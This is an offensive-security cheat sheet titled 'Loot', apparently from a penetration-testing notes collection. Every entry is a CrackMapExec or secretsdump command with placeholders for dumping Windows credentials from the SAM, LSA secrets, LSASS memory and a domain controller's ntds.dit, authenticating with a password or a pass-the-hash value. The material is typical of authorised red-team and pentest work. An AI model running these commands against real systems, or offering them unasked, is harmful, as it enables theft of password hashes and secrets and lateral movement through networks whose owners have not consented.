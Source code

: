 # Loot

## Dump SAM (domain auth)

```
cme smb <target> -u <user> -p <password> -d <domain> --sam
```

= domain: $DOMAIN

## Dump SAM (local auth with hash)

```
cme smb <target> -u <user> -H <hash> --sam
```

## Dump LSA (domain auth)

```
cme smb <target> -u <user> -p <password> -d <domain> --lsa
```

= domain: $DOMAIN

## Dump LSA (local auth with hash)

```
cme smb <target> -u <user> -H <hash> --lsa
```

## Dump LSASS (domain auth)

```
cme smb <target> -u <user> -p <password> -d <domain> -M lsassy
```

= domain: $DOMAIN

## Dump LSASS (local auth)

```
cme smb <target> -u <user> -H <hash> -M lsassy
```

## Dump ntds.dit (domain auth) - cmme

```
cme smb <dc_ip> -u <user> -p <password> -d <domain> --ntds
```

= domain: $DOMAIN

## Dump ntds.dit (domain auth) - secretsdump

```
secretsdump '<domain>/<user>:<password>'@<ip>
```

= domain: $DOMAIN
